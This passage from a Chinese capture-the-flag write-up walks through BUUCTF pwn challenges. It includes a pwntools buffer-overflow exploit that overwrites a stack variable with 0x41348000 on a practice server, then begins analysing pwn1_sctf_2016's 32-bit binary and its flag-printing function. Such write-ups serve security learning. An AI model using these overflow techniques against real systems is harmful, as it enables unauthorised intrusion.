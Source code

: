 所以可以看到v1是0x30，v2是0x04

所以填满v1再加上偏移量11.28125即可，只不过11.28125需要转换为十六进制，仔细在View-A里面找，也是直接有的：

![image-20241027104923654](../_media/image-20241027104923654.png)



故最终的exp：

```python
from pwn import *

p = remote('node5.buuoj.cn', 26100)

payload = b'a' * (0x30 - 0x04) + p64(0x41348000)

p.sendline(payload)

p.interactive()
```



## pwn1_sctf_2016

拉进die查看，发现是32位的，直接ida32启动！

查看危险函数，cat flag.txt

![image-20241027110925387](../_media/image-20241027110925387.png)

指令入口地址为 ： `0x08048F13`



找我们能操作的变量是啥：
